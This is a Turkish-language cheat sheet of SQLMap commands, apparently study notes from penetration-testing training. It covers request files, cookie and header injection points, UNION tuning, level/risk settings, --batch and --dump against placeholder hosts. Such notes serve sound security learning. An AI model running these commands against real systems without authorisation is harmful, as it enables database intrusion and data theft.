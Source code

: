 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/sql-map-ch/"}
---
```



Not : SQLMap'deki `--data` seçeneği, **POST istekleri** sırasında sunucuya gönderilen verilerin belirtildiği bir parametredir. Bu seçenek, SQLMap'in POST tabanlı parametreler üzerinde SQL enjeksiyon testi yapmasını sağlar.

### 1- Curl Commands (Get İsteği - Inspect)

![Pasted image 20241214175823.png](/img/user/resimler/Pasted%20image%2020241214175823.png)


Clipboard içeriğini (Ctrl-V) komut satırına yapıştırarak ve orijinal curl komutunu sqlmap olarak değiştirerek, SQLMap'i aynı curl komutuyla kullanabiliyoruz:



### 2-GET/POST Requests

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

![Pasted image 20241214180558.png](/img/user/resimler/Pasted%20image%2020241214180558.png)


### 3-Full HTTP Requests (Burp)

`Copy > Copy Request Headers`

```http
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

```shell-session
sqlmap -r req.txt
```

İpucu: '--data' seçeneğinde olduğu gibi, kaydedilen istek dosyasında da enjekte etmek istediğimiz parametreyi `'/?id=*'` gibi bir yıldız işaretiyle `(*)` belirtebiliriz.

### 4-Custom SQLMap Talepleri

#### cookie parametresi 

```shell-session
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

#### Header cookie parametresi 

```shell-session
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

Aynı HTTP başlıklarının değerlerini belirtmek için kullanılan --host, --referer ve -A/--user-agent gibi seçenekler için de aynı şeyi uygulayabiliriz.


#### `--host`, `--referer` ve `-A/--user-agent` Seçenekleri

```shell-session
sqlmap -u 'http://www.example.com/' --host='www.example.com'

sqlmap -u 'http://www.example.com/' --referer='http://google.com'

sqlmap -u 'http://www.example.com/' -A='Mozilla/5.0 (Windows NT 10.0; Win64; x64)'
```


#### `--random-agent` Seçeneği

Rastgele bir `User-agent` değeri seçmek için kullanılır.

```shell-session
sqlmap -u 'http://www.example.com/' --random-agent
```



#### `--mobile` Seçeneği

Tarayıcının bir mobil cihazı taklit etmesini sağlar.

```shell-session
sqlmap -u 'http://www.example.com/' --mobile
```


#### Diğer Başlıkların Test Edilmesi

```shell-session
# Host başlığında SQL enjeksiyonu testi

sqlmap -u 'http://www.example.com/' --host='www.example.com*'



# Referer başlığında SQL enjeksiyonu testi

sqlmap -u 'http://www.example.com/' --referer='http://google.com*'



# User-agent başlığında SQL enjeksiyonu testi

sqlmap -u 'http://www.example.com/' -A='Mozilla/5.0 (Windows NT 10.0; Win64; x64)*'
```



#### Tam İsteğe Özgü Enjeksiyon Testi

```shell-session
sqlmap -u 'http://www.example.com/' --data='uid=1&name=test' --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c*'
```


#### Full Kombinasyon 

```shell-session
sqlmap -u 'http://www.example.com/' \

--data='uid=1&name=test' \

--cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c*' \

--referer='http://google.com*' \

-A='Mozilla/5.0 (Windows NT 10.0; Win64; x64)*' \

--random-agent
```



#### Custom HTTP Requests (JSON ve XML)

```shell-session
M1R4CKCK@htb[/htb]$ cat req.txt
HTTP / HTTP/1.0
Host: www.example.com

{
  "data": [{
    "type": "articles",
    "id": "1",
    "attributes": {
      "title": "Example JSON",
      "body": "Just an example",
      "created": "2020-05-22T14:56:29.000Z",
      "updated": "2020-05-22T14:56:28.000Z"
    },
    "relationships": {
      "author": {
        "data": {"id": "42", "type": "user"}
      }
    }
  }]
}
```


```shell-session
 sqlmap -r req.txt
```



### 5-BATCH

SQLMap'teki **`--batch`** parametresi, aracı tam otomatik modda çalıştırmaya yarar. Bu parametre, SQLMap'in çalışması sırasında kullanıcıdan herhangi bir onay veya ek bilgi istememesini sağlar.

```shell-session
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```



### 6- Store the Traffic (-t)

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```


### 7-Verbose Output (-v)

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```


### 8-Using Proxy (Burp)

```shell-session
sqlmap -r asd3.txt --batch --dump --proxy=http://127.0.0.1:8080
```

### 9-Prefix/Suffix

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

### 10-Level/Risk (5-3)


```shell-session
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

### 11-Status Codes

Eğer **TRUE** yanıtlarında HTTP durumu `200 OK`, ancak **FALSE** yanıtlarında `500 Internal Server Error` alıyorsanız, `--code` seçeneği ile SQLMap'e **200** durum kodunu doğruluk kriteri olarak kullanmasını söyleyebilirsiniz.

```shell-session
sqlmap -u "http://target.com/page?id=1" --code=200
```


### 12-Başlıklar

Hedefteki yanıtlar arasındaki fark, **HTML sayfa başlıkları** ile ayırt ediliyorsa:

```shell-session
sqlmap -u "http://target.com/page?id=1" --titles
```

### 13-Stringler

Yanıtların içinde belirli bir string varsa, bu string üzerinden doğrulama yapılabilir:

```shell-session
sqlmap -u "http://target.com/page?id=1" --string="success"
```


### 14-Sadece Metin

Yanıtlarda **HTML etiketleri** gibi fazlalıklar varsa ve yalnızca metin içeriği önemliyse:

```shell-session
sqlmap -u "http://target.com/page?id=1" --text-only
```


### 15-Teknikler

Belirli bir SQLi tekniğiyle sınırlı test yapmak isterseniz:

```shell-session
sqlmap -u "http://target.com/page?id=1" --technique=BEU
```


### 16-UNION SQLi Ayarları

UNION tabanlı SQL enjeksiyonunda **kolon sayısını manuel olarak belirtmek**

```shell-session
sqlmap -u "http://target.com/page?id=1" --union-cols=5
```



### 17-UNION karakteri ayarlama (`--union-char`)

UNION tabanlı sorgularda varsayılan `NULL` yerine başka bir karakter kullanmak için: Eğer hedef, UNION sorgularında `NULL` kullanıldığında hata veriyor, ancak `"a"` gibi bir karakter kullanılınca çalışıyorsa, bu seçenekle alternatif bir karakter belirtebilirsiniz.

```shell-session
sqlmap -u "http://target.com/page?id=1" --union-char='a'
```


### 18-Tablo ekleme (`--union-from`)

UNION sorgusunun sonunda bir tablo belirtmek gerekirse: Oracle veritabanında UNION sorgusunun doğru çalışması için `FROM users` gibi bir tablo adı eklenmesi gerekiyorsa bu seçenek kullanılır.

```shell-session
sqlmap -u "http://target.com/page?id=1" --union-from=users
```


----
